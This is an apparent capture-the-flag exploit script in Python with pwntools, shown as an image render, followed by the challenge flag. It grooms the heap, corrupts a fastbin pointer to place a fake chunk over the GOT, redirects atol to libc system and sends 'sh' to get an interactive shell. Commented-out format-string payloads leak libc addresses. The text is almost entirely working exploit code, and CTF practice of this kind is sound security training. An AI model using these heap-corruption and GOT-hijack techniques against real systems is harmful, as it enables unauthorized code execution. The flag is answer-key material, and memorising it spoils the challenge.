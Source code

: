 ```python exp_bad.py
    log.success("libc_base: " +hex(libc.address))
    # gdb.attach(r, gdbscript=open('./ggg', 'r'))
    # arrange heap
    add_data(2, 0, "2"*0xb0*2, 'Yes')
    add_data(2, 0, "3"*0x58*2, 'Yes')
    add_data(2, 0, "4"*0x38*2, 'Yes')
    # overwrite fastbin->fd ( in size 0x40 )
    payload = convert(0x41)
    payload += convert(0x604042)
    payload += convert(0) * 6
    payload += convert(0x31)
    payload = payload.ljust(0x58*2, '0')
    add_data(2, 0x60-0x8, payload, 'Yes')
    # now fastbin (size=0x40) has fake chunk @ got
    # allocate the fake chunk
    # overwrite got
    payload = "6"*12 # libc_start_main
    payload += convert(0x400b26) # resolve fgets
    payload += convert(0x400b36) # resolve strlen
    payload += convert(libc.symbols['system']) # hijack atol
    #payload += convert(elf.plt['printf']) # use format string to leak libc info
    payload = payload.ljust(110, '0')
    add_data(3, 8, payload, 'No')
    
    # hijack atol, send "sh" to get shell
    r.sendlineafter("SEQ #:", "sh")
    log.success("get shell!: ")
    r.interactive()

    # for exploiting format string & leak libc info
    """
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['fgets'])
    r.sendlineafter("SEQ #:", payload)
    r.recv(1)
    print "fgets:", hex(u64(r.recv(6).ljust(8, '\x00')))
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['puts'])
    r.sendlineafter("Offset:", payload)
    r.recv(1)
    print "puts:", hex(u64(r.recv(6).ljust(8, '\x00')))
    """
```

flag: `All ints are not the same... A239... Some can be bad ints!`